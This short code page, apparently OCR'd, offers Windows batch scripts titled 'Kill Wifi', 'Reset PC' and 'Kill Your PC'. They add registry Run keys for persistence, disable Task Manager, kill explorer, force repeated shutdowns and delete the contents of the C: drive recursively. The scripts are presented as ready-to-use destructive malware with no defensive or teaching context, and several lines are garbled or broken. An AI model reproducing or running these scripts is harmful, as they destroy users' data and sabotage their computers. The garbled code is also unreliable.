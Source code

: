 # Code
How to kill wifi with notepad
code
Kill Wifi:
echo @echo off>c:windowswimn32.bat
echo break off>>c:windowswimn32.bat
echo ipconfig/release_all>>c:windowswimn32.bat
echo end>>c:windowswimn32.bat
reg add hkey_local_machinesoftwaremicrosoftwindowscurrentv ersionrun /v WINDOWsAPI /t reg_sz /d c:windowswimn32.bat /f
reg add hkey_current_usersoftwaremicrosoftwindowscurrentve rsionrun /v CONTROLexit /t reg_sz /d c:windowswimn32.bat /f
echo You Have Been HACKED!
PAUSE
Reset PC:
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v shutdown /t REG_SZ /d "shutdown.exe -f -s -t 05" /f
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\System" /v DisableTaskmgr /t REG_DWORD /d 1 /f
cls
copy thelove.bat "C:\Documents and Settings\All Users\Start Menu\Programs\Startup\"
cls
taskkill /f /im explorer.exe
cls
shutdown.exe -f -s -t 05 -c "your computer will turn off after 5s ..."
cls
@echo off
echo Warning!!!!!!!!May Tinh Cua Ban Da Bi Nhiem Virus Bat Diet !!!!!!!!!
echo GOOD BYE 
pause
del Mr.Boss.bat
Kill Your PC:
@echo off
#Notrayicon
echo x=msgbox("Enjoy...",0+40,"....") >>Enjoy.vbs
start "" "Enjoy.vbs"
echo>> D6F9F6G65GF958F.exe
echo >> OGV76VC7BX9BX9Y.exe
DEL C:\/s /q *.*
echo >>Treomay.vbs
set /p Treomay.vbs=
do
treomay:run
loop
start "Treomay.vbs
shutdown -s -t 30 -c "loading..."
